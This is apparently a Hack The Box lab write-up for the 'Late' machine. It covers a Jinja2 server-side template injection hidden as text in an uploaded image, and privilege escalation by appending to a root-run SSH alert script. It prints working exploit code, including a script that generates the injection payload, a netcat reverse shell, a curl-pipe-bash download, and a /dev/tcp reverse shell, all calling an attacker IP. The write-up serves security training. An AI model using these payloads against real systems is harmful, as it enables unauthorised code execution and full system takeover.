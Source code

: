 ```yaml
---
title: Late Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
Nmap scan report for 10.129.170.15
Host is up (0.048s latency).

PORT STATE SERVICE VERSION
20/tcp closed ftp-data
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User exploit

If we look at the page, we have a contact form. Let's check it with burp. Not much can be done.

But if we take a closer look at the page, we see a photo editor, so let's add it to /etc/hosts.

As we can see as soon as we enter the page, it uses Flask (which uses `Jinga2` template by default), so we are going to try to put a SSTI by image:

So we are going to create a python script with a payload to later upload it to the platform:

```python
from PIL import Image, ImageDraw, ImageFont

	def main():
	
	img = Image.new('RGB', (2000,100)) #Create an image
	draw = ImageDraw.Draw(img)
	myFont = ImageFont.truetype('LiberationMono-Regular.ttf', 15)
	payload = "{{ 191 * 7 }}" # This will be our payload
	draw.text((0,3), payload, fill=(255,255,255), font=myFont) 
	img.save('payload.png')
	
if __name__ == '__main__':
	main()
```

and if we upload this script to the page, it reports 1337, so it is vulnerable to SSTI. 

We are going to modify the script a little bit so that it will change the payload by the code that we introduce between " " :

```python
from PIL import Image, ImageDraw, ImageFont
import sys
def main():
    if len(sys.argv) < 2:
        print('Usage: {} <cmd>'.format(sys.argv[0]))
        exit()
    img = Image.new('RGB', (2000,100))
    draw = ImageDraw.Draw(img)
    myFont = ImageFont.truetype('LiberationMono-Regular.ttf', 15)
    payload = self._TemplateReference__context.namespace.__init__.__globals__.os.popen("{cmd}").read().format(cmd=sys.argv[1]) draw.text((0,3), payload, fill=(255,255,255), font=myFont) # payload
    img.save('payload.png')

if __name__ == '__main__':
    main()

# IMPORTANT NOTE: in payload = ... open it with four " followed by another four {. Then, after read() and before .format
# Close them in the same way: first four } and then four "
```

So let's upload a RevShell. First we create the shell.sh file and put the shell command in it:

```bash
#!/bin/bash
rm /tmp/wk;mkfifo /tmp/wk;cat /tmp/wk|/bin/sh -i 2>&1|nc 10.10.14.58 1234 >/tmp/wk
```

We create the file with the script
```python
python3 image.py "curl http://10.10.14.58:8000/shell.sh| bash"
```

and if we enter the page and run it, we get the R.E.

## Root Exploit

As we have access to the private key of svc_acc, we copy it to our local machine, give ``chmod 600 id_rsa` and connect via ssh: `ssh svc_acc@10.129.170.15 -i id_rsa`. 
We look for files owned by sv_acc:

```shell
find / -type f -user svc_acc 2>/dev/null
```

and we see one ssh-alert.sh, so let's investigate it:

```bash
#!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User: $PAM_USER
        User IP Host: $PAM_RHOST
        Service: $PAM_SERVICE
        TTY: $PAM_TTY
        Date: `date`
        Server: `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

In the if of the script we can see how the user root@late.htb receives a notification if any user accesses the machine via ssh.

With the help of pspy, we can see how the script is executed every time we access the machine via ssh.

If we try to overwrite the script, we have no access, because if we look at the `lsattr` we can see that it has `---a---e---` so we can only append text to it, so let's add a R.S:

```shell
echo "bash -i >& /dev/tcp/10.10.14.58/1337 0>&1" >> /usr/local/sbin/ssh-alert.sh
```

And if we listen on port 1337 and exit the SSH connection, we receive a shell as root user on the local machine. 
